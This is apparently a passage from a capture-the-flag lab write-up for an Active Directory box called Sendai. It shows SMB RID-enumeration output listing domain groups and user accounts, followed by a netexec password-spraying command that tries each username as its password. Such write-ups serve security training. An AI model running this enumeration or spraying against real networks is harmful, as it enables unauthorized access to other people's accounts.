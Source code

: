 ```
SMB         10.129.234.66   445    DC               512: SENDAI\Domain Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               513: SENDAI\Domain Users (SidTypeGroup)
SMB         10.129.234.66   445    DC               514: SENDAI\Domain Guests (SidTypeGroup)
SMB         10.129.234.66   445    DC               515: SENDAI\Domain Computers (SidTypeGroup)
SMB         10.129.234.66   445    DC               516: SENDAI\Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               517: SENDAI\Cert Publishers (SidTypeAlias)
SMB         10.129.234.66   445    DC               518: SENDAI\Schema Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               519: SENDAI\Enterprise Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.234.66   445    DC               521: SENDAI\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               522: SENDAI\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.234.66   445    DC               525: SENDAI\Protected Users (SidTypeGroup)
SMB         10.129.234.66   445    DC               526: SENDAI\Key Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               527: SENDAI\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.234.66   445    DC               553: SENDAI\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.234.66   445    DC               571: SENDAI\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.66   445    DC               572: SENDAI\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.234.66   445    DC               1000: SENDAI\DC$ (SidTypeUser)
SMB         10.129.234.66   445    DC               1101: SENDAI\DnsAdmins (SidTypeAlias)
SMB         10.129.234.66   445    DC               1102: SENDAI\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.234.66   445    DC               1103: SENDAI\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
SMB         10.129.234.66   445    DC               1104: SENDAI\sqlsvc (SidTypeUser)
SMB         10.129.234.66   445    DC               1105: SENDAI\websvc (SidTypeUser)
SMB         10.129.234.66   445    DC               1107: SENDAI\staff (SidTypeGroup)
SMB         10.129.234.66   445    DC               1108: SENDAI\Dorothy.Jones (SidTypeUser)
SMB         10.129.234.66   445    DC               1109: SENDAI\Kerry.Robinson (SidTypeUser)
SMB         10.129.234.66   445    DC               1110: SENDAI\Naomi.Gardner (SidTypeUser)
SMB         10.129.234.66   445    DC               1111: SENDAI\Anthony.Smith (SidTypeUser)
SMB         10.129.234.66   445    DC               1112: SENDAI\Susan.Harper (SidTypeUser)
SMB         10.129.234.66   445    DC               1113: SENDAI\Stephen.Simpson (SidTypeUser)
SMB         10.129.234.66   445    DC               1114: SENDAI\Marie.Gallagher (SidTypeUser)
SMB         10.129.234.66   445    DC               1115: SENDAI\Kathleen.Kelly (SidTypeUser)
SMB         10.129.234.66   445    DC               1116: SENDAI\Norman.Baxter (SidTypeUser)
SMB         10.129.234.66   445    DC               1117: SENDAI\Jason.Brady (SidTypeUser)
SMB         10.129.234.66   445    DC               1118: SENDAI\Elliot.Yates (SidTypeUser)
SMB         10.129.234.66   445    DC               1119: SENDAI\Malcolm.Smith (SidTypeUser)
SMB         10.129.234.66   445    DC               1120: SENDAI\Lisa.Williams (SidTypeUser)
SMB         10.129.234.66   445    DC               1121: SENDAI\Ross.Sullivan (SidTypeUser)
SMB         10.129.234.66   445    DC               1122: SENDAI\Clifford.Davey (SidTypeUser)
SMB         10.129.234.66   445    DC               1123: SENDAI\Declan.Jenkins (SidTypeUser)
SMB         10.129.234.66   445    DC               1124: SENDAI\Lawrence.Grant (SidTypeUser)
SMB         10.129.234.66   445    DC               1125: SENDAI\Leslie.Johnson (SidTypeUser)
SMB         10.129.234.66   445    DC               1126: SENDAI\Megan.Edwards (SidTypeUser)
SMB         10.129.234.66   445    DC               1127: SENDAI\Thomas.Powell (SidTypeUser)
SMB         10.129.234.66   445    DC               1128: SENDAI\ca-operators (SidTypeGroup)
SMB         10.129.234.66   445    DC               1129: SENDAI\admsvc (SidTypeGroup)
SMB         10.129.234.66   445    DC               1130: SENDAI\mgtsvc$ (SidTypeUser)
SMB         10.129.234.66   445    DC               1131: SENDAI\support (SidTypeGroup)
```
### Password Spraying
I save the list of valid users to a file and attempt a password brute force with username as password and fail
```
nxc smb sendai.vl -u valid_users -p valid_users --no-brute --continue-on-success
```